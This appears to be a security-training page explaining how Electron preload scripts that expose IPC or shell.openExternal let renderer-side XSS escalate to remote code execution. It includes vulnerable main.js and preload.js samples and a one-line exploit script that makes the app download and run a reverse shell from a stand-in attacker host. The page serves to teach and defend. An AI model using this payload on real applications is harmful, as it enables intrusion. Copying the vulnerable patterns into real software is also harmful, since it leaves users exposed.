 # Electron contextIsolation RCE via IPC

{{#include ../../../banners/hacktricks-training.md}}

If the preload script exposes an IPC endpoint from the main.js file, the renderer process will be able to access it and if vulnerable, a RCE might be possible.

**Most of these examples were taken from here** [**https://www.youtube.com/watch?v=xILfQGkLXQo**](https://www.youtube.com/watch?v=xILfQGkLXQo). Check the video for further information.

## Example 0

Example from [https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21](https://speakerdeck.com/masatokinugawa/how-i-hacked-microsoft-teams-and-got-150000-dollars-in-pwn2own?slide=21) (you have the full example of how MS Teams was abusing from XSS to RCE in those slides, this is just a very basic example):

<figure><img src="../../../images/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Example 1

Check how the `main.js` listens on `getUpdate` and will **download and execute any URL** passed.\
Check also how `preload.js` **exposes any IPC** event from main.

```javascript
// Part of code of main.js
ipcMain.on("getUpdate", (event, url) => {
  console.log("getUpdate: " + url)
  mainWindow.webContents.downloadURL(url)
  mainWindow.download_url = url
})

mainWindow.webContents.session.on(
  "will-download",
  (event, item, webContents) => {
    console.log("downloads path=" + app.getPath("downloads"))
    console.log("mainWindow.download_url=" + mainWindow.download_url)
    url_parts = mainWindow.download_url.split("/")
    filename = url_parts[url_parts.length - 1]
    mainWindow.downloadPath = app.getPath("downloads") + "/" + filename
    console.log("downloadPath=" + mainWindow.downloadPath)
    // Set the save path, making Electron not to prompt a save dialog.
    item.setSavePath(mainWindow.downloadPath)

    item.on("updated", (event, state) => {
      if (state === "interrupted") {
        console.log("Download is interrupted but can be resumed")
      } else if (state === "progressing") {
        if (item.isPaused()) console.log("Download is paused")
        else console.log(`Received bytes: ${item.getReceivedBytes()}`)
      }
    })

    item.once("done", (event, state) => {
      if (state === "completed") {
        console.log("Download successful, running update")
        fs.chmodSync(mainWindow.downloadPath, 0755)
        var child = require("child_process").execFile
        child(mainWindow.downloadPath, function (err, data) {
          if (err) {
            console.error(err)
            return
          }
          console.log(data.toString())
        })
      } else console.log(`Download failed: ${state}`)
    })
  }
)
```

```javascript
// Part of code of preload.js
window.electronSend = (event, data) => {
  ipcRenderer.send(event, data)
}
```

Exploit:

```html
<script>
  electronSend("getUpdate", "https://attacker.com/path/to/revshell.sh")
</script>
```

## Example 2

If the preload script exposes directly to the renderer a way to call `shell.openExternal` its possible to obtains RCE

```javascript
// Part of preload.js code
window.electronOpenInBrowser = (url) => {
  shell.openExternal(url)
}
```

## Example 3

Is the preload script exposes ways to completely communicate with the main process, an XSS will be able to send any event. The impact of this depends on what the main process exposes in terms of IPC.

```javascript
window.electronListen = (event, cb) => {
  ipcRenderer.on(event, cb)
}

window.electronSend = (event, data) => {
  ipcRenderer.send(event, data)
}
```

{{#include ../../../banners/hacktricks-training.md}}
